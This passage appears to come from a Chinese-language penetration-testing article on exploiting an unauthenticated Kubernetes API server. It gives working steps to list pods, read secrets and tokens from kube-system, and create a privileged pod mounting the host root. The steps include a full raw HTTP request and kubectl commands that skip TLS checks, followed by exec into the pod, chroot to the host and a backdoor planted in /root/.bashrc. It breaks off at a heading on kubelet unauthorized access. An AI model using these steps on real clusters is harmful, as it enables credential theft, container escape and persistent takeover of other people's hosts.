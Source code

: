 访问https://IP:6443/api/v1/namespaces/default/pods 获取所有Pod列表  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Q11SaBKBJunqxljhhqonXic7EsnlaDaRedNyfe7pghib3FjMYgY9lLgJymoKVc4n0cCic8QVrRBr3edNhMmZ4zScw/640?wx_fmt=jpeg&from=appmsg "")  
  
访问/api/v1/namespaces/kube-system/secrets/获取token  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Q11SaBKBJunqxljhhqonXic7EsnlaDaReA2T3LghGl78tUmS6mILql4WRULzb4iaDgKCliaRJNNiaial1dZnHDVO2OA/640?wx_fmt=jpeg&from=appmsg "")  
  
创建特权容器：  
```
POST /api/v1/namespaces/default/pods HTTP/1.1Host: x.x.x.x:6443Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneSec-Fetch-User: ?1Te: trailersContent-Length: 695{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"sectest\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.1\",\"name\":\"sectest\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"sectest","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.1","name":"sectest","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Q11SaBKBJunqxljhhqonXic7EsnlaDaReqfH5PSP64zoh3aorYTiaXg3nhWWmwHbwnd3L9pqyx8YntaNJ4Ziceytg/640?wx_fmt=jpeg&from=appmsg "")  
  
可以看到Pod创建成功：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Q11SaBKBJunqxljhhqonXic7EsnlaDaReY04usiaDy4I1JOBE7CzhiahnYUOsWicTgGxg7F8brsLNwiaYgvzpoDrDvQ/640?wx_fmt=jpeg&from=appmsg "")  
  
使用kubectl查看所有Pod：  
  
kubectl.exe --insecure-skip-tls-verify -s https://IP:6443 get pods --all-namespaces  
  
用户名和密码随意输入  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Q11SaBKBJunqxljhhqonXic7EsnlaDaRe25hicNShic2JWKtB5icwowPrZFoF0lGpfhKF26sM4qJAwUXicb1Wq2ILLg/640?wx_fmt=jpeg&from=appmsg "")  
  
查看所有Pod状态：  
  
kubectl.exe --insecure-skip-tls-verify -s https://IP:6443 describe pod --all-namespaces  
  
如果运行出错，可以通过logs查看日志：  
  
kubectl.exe --insecure-skip-tls-verify -s https://IP:6443 logs sectest  
  
获取bash：  
  
kubectl.exe --insecure-skip-tls-verify -s https://IP:6443 --namespace=default exec -it sectest -- bash  
  
通过chroot到宿主机，写入/root/.bashrc，待下次ssh登录时获取宿主机权限  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Q11SaBKBJunqxljhhqonXic7EsnlaDaReTicJFm7fN215LdchnsDPZ2Zeb2SurnqFlxww5YbNbicm9ibz0JhLn4dwg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Q11SaBKBJunqxljhhqonXic7EsnlaDaRenF1b75ibzScgYKTKyZqQ4Inupk1HA8qbncbCMHD0cf1FXzEXOQ5VBicA/640?wx_fmt=jpeg&from=appmsg "")  
## 0x03 kubelet API未授权访问  
  